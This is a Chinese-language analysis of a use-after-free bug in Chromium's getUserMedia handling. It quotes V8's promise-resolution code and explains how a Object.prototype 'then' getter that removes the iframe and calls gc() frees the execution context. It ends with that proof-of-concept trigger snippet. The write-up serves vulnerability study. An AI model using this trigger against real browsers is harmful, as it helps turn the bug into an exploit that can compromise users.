 ```
// static
MaybeHandle<Object> JSPromise::Resolve(Handle<JSPromise> promise,
                                       Handle<Object> resolution) {
  // ...

  // 8. Let then be Get(resolution, "then").
  MaybeHandle<Object> then;
  if (isolate->IsPromiseThenLookupChainIntact(
          Handle<JSReceiver>::cast(resolution))) {
    // We can skip the "then" lookup on {resolution} if its [[Prototype]]
    // is the (initial) Promise.prototype and the Promise#then protector
    // is intact, as that guards the lookup path for the "then" property
    // on JSPromise instances which have the (initial) %PromisePrototype%.

    // 注意这里！这里调用了其他的then方法
    then = isolate->promise_then();
  } else {
    then =
        JSReceiver::GetProperty(isolate, Handle<JSReceiver>::cast(resolution),
                                isolate->factory()->then_string());
  }
  // ...

  // 10. Let thenAction be then.[[Value]].
  // 11. If IsCallable(thenAction) is false, then
  if (!then_action->IsCallable()) {
    // a. Return FulfillPromise(promise, resolution).
    // 这里调用Fulfill函数
    return Fulfill(promise, resolution);
  }
  // ...
}
```
注意该函数中部的isolate->promise_then()语句。如果resolution设置了其then属性，那么当控制流执行至此处时，就会调用用户所设计的getter。也就是说，在Promise Resoving执行到一半时，可以执行用户所定义的外部JS代码。

实际的用法：
为Object.prototype的then属性定义一个getter。从这时起，任何一个Promise中，从Object.prototype派生出的resolution都会调用这个getter。

```
Object.prototype.__defineGetter__("then", function() {
  // Statements
});
```
之后我们再回到漏洞

这个漏洞只要了解了上面讲到的JSPromise::Resolve就很简单了

```
void UserMediaRequest::OnMediaStreamInitialized(MediaStream* stream) {
  DCHECK(!is_resolved_);

  MediaStreamTrackVector audio_tracks = stream->getAudioTracks();
  for (const auto& audio_track : audio_tracks)
    audio_track->SetConstraints(audio_);

  MediaStreamTrackVector video_tracks = stream->getVideoTracks();
  for (const auto& video_track : video_tracks)
    video_track->SetConstraints(video_);

  callbacks_->OnSuccess(nullptr, stream); //  Invoking Promise.resolve thenable, and callback to iframe detach
  RecordIdentifiabilityMetric(surface_, GetExecutionContext(), //  use execution context destroyed
                              IdentifiabilityBenignStringToken(g_empty_string));
  is_resolved_ = true;
}
```

具体的漏洞点在注释里给出了，下面我们简单讲解一下：

首先在这里调用了一个回调函数OnSuccess：
```
callbacks_->OnSuccess(nullptr, stream);
```
而在这个函数中，调用了resolver_->Resolve，结合上面讲到的内容就可以得出在这里我们就有了执行用户所定义的外部JS代码的能力。
```
void OnSuccess(ScriptWrappable* callback_this_value,
                MediaStream* stream) override {
    resolver_->Resolve(stream);
}
```
之后再回到OnMediaStreamInitialized函数，在OnSuccess执行结束后将会调用
```
RecordIdentifiabilityMetric(surface_, GetExecutionContext(), IdentifiabilityBenignStringToken(g_empty_string));
```
在该函数中使用到了Context，如果我们在外部定义的js代码中将context删除，在这里就会触发uaf。

接下来就很明朗了，我们只要创建一个iframe，在其中执行MediaStream相关代码，之后在getter中删除掉iframe即可释放掉context。
```
Object.prototype.__defineGetter__("then", function() {
                        console.log("then");
                        parent.remove();
                        gc();
                });
```